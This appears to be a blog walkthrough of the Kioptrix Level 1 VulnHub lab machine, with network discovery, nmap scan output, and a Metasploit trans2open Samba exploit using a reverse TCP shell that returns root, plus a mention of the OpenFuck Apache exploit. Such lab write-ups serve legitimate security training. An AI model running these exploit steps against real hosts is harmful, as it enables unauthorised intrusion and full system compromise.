 ```yaml
---
title : "Kioptrix 1 - Walkthrough"
date : 21-10-2024
tags : [OSCP]
---
```



![Image Credit: techyrick.com](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tTVc6HrehDi1w9iIHXOTPA.jpeg)

1.  Download VM from the [link](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
2.  Extract and open the VM in VMware.
3.  Issues faced that network adaptor changes to bridged automatically and not assigned any IP when you do netdiscover in kali.
4.  To overcome this, Open .vmx file in the vm folder, search for the term “bridged”, two results will be shown, delete the line of first result, and change the word “bridged” to “nat” in second result.
5.  Open the vm and use netdiscover to find the IP assigned to the kioptrix Level 1.

Find IP using netdiscover command

```bash
netdiscover -r 192.168.211.0/24
```

kioptrix IP — 192.168.211.131

Start Port scan using nmap

```bash
nmap -sC -sV -O -oA initial 192.168.211.131
```

-sC — run default nmap scripts -sV — detect service version -O — detect OS -oA — output all formats and store in file _initial_

**output:**

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-13 23:27 IST
Nmap scan report for 192.168.211.131
Host is up (0.00098s latency).
Not shown: 994 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2023-05-13T17:59:58+00:00; +1m53s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:7C:3A:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
Host script results:
|_clock-skew: 1m52s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

**Method 1: Using SMB**

Use smbver from OSCPRepo — [Link](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) for SMB ver of target

here smb version — Samba 2.1.1

Exploit found — trans2open Buffer overflow using metasploit

Open metasploit using command

```bash
msfconsole
```

type for options available to configure

set rhost, set payload as shown below, and run exploit

```bash
msf6 exploit(linux/samba/trans2open) > options
Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see [https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html](https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html)
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.211.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

View the full module info with the info, or info -d command.

msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.211.131
rhosts => 192.168.211.131
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.211.128:4444 
[*] 192.168.211.131:139 - Trying return address 0xbffffdfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffcfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffbfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffafc...
[*] 192.168.211.131:139 - Trying return address 0xbffff9fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff8fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff7fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff6fc...
[*] Command shell session 1 opened (192.168.211.128:4444 -> 192.168.211.131:32769) at 2023-05-14 00:52:03 +0530

[*] Command shell session 2 opened (192.168.211.128:4444 -> 192.168.211.131:32770) at 2023-05-14 00:52:04 +0530
[*] Command shell session 3 opened (192.168.211.128:4444 -> 192.168.211.131:32771) at 2023-05-14 00:52:05 +0530
[*] Command shell session 4 opened (192.168.211.128:4444 -> 192.168.211.131:32772) at 2023-05-14 00:52:06 +0530
id
uid=0(root) gid=0(root) groups=99(nobody)
```

**Method 2 : Apache exploit**

Observed from nmap result apache running on old version, with public available exploit OpenSSL OpenFucK exploit

Download the exploit, compile using gcc, and run the exploit

Thanks for the time spent 😊